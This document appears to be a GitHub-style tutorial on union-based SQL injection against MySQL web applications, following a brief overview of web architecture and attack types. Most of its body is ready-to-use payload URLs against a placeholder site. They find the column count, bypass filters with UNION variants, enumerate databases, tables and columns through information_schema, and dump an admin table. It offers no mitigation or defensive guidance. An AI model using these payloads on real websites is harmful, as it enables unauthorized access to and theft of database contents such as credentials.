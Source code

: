 # SQL Injection Basic To Advanced

## 1. Introduciton
**Web Architecture**
![Web Architecture](https://axisbits.com/storage/app/uploads/public/7da/cc4/ec1/7dacc4ec1c9bc16b7aa58185cb8efa5a.png "Web Architecture")
<br>
**Client Side**
```
HTML
CSS 
JavaScript
```
**Server Side**
```
PHP
ASP
Python
Ruby on Rails
Node JS 
SQL
```
**Database Management Systems**
```
MySQL
PostgreSQL
Oracle SQL
```
> Web Protocols
![Web Architecture](https://static.javatpoint.com/tutorial/computer-network/images/http-vs-https.png "Protocols")

##

> URL(Uniform Resource Locator) Structure
![Web Architecture](https://static.semrush.com/blog/uploads/media/fa/fe/fafe931ac85fc1c5b628299e399a2870/yqyhmdwqsDzxONy4U6FyLwK_LN_hl36xIGyfon2xWiopIuhrhR4w08c-NbWe2EnJXUh0RWDOCtMrlVNhqlBVmWRjKI3freLX4X_1Ugk7_9FwqgquwBsNqfaOnJZQ6xJJnGRKowrKhSBr_xVQZGI6gCg.png "URL")



##

## General Process:
- Find injection point  
- Understand the website behaviour  
- Hunting SQL Errors
- Identify Attack Types
- Injections And Bypass Process
- Dump Data

## SQL Error Hunting Types
- String Based
- Integer Based

## Types Of SQL Injection Attacks
- Union Based SQL Injection Attacks
- Error Based Injection Attacks
- Blind SQL Injections (Bollean Based And Time Based)

![SQL Injection](https://media.geeksforgeeks.org/wp-content/uploads/20220716180638/types.PNG)

# Union Based SQL Injection

## General Process:
- Find Column Count
- Using UNION Operator To Add Malicious Statement
- Gather Database And DBMS Informations
- Finding Tables
- Finding Columns Of Table Or Tables
- Dump Data


**Finding Column Count**
```
https://vuln-web.vuln/product.php?id=1' ORDER BY 1-- -

https://vuln-web.vuln/product.php?id=1' GROUP BY 1-- -

https://vuln-web.vuln/product.php?id=1' ORDER BY 1 ASC-- -

https://vuln-web.vuln/product.php?id=1' GROUP BY 1 DESC-- -
```

**Using UNION Operator To Add Malicious Statement**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,3,4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION+ALL+SELECT+null,null,null,null,null-- -
https://vuln-web.vuln/product.php?id=1' UNION(SELECT(1),(2),(3),(4),(5))-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT CHAR(1),CHAR(2),CHAR(3),CHAR(4),CHAR(5)-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT * FROM (SELECT 1)a JOIN(SELECT 2)b JOIN(SELECT 3)c JOIN(SELECT 4)d JOIN(SELECT 5)e-- -
https://vuln-web.vuln/product.php?id=1' UNION Distinctrow SELECT 1,2,3,4,5-- -
```

## Understanding MYSQL DBMS Structures

```
MYSQL DBMS -> USER -> DATABASE -> TABLES -> ROWS -> Data
```
**information_schema Database**
```
provides access to database metadata, information about the MySQL server such as the name of a database or table, the data type of a column, or access privileges.
```

**Gather Database And DBMS Informations**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT database()),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT version()),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT user()),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT @@datadir),4,5-- -
```

**Finding Tables**
```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()),4,5-- -
```

**Finding Columns Of Table Or Tables**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema=database() and table_name='admin'),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name,':',column_name) FROM information_schema.columns WHERE table_schema=database()),4,5-- -
```

**Dump Data**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column1,':',column2) FROM admin),4,5-- -
```
